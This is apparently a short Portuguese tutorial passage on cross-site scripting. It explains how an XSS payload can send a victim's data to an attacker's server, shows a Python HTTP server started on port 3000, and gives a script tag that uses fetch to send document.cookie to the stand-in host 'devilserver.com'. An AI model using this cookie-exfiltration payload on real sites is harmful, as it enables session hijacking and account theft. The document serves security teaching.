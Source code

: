 Dependendo de como a aplicação for construída, ataques de XSS podem ser capazes de fazer requisições em nome de outro usuário contendo dados sensíveis. Costuma depender de quais dados o ``java script`` terá acesso.

Podemos fazer uma requisição com com informações do usuário, para o nosso servidor.

Primeiro criamos um servidor na nossa máquina. Nesse caso na porta 3000.
```sh
python3 -m SimpleHTTPServer 3000
```

Já na nossa payload, devemos colocar qual a função que queremos que JavaScript execute no computador das vítimas.

Pomos fazer uma requisição enviando o cookie de acesso para o nosso servidor python.
```html
<script>
fetch("http://devilserver.com:3000/?cookie="+document.cookie)
</script>
```

Lembrando que podemos informar qualquer informação que o JavaScript tenha acesso.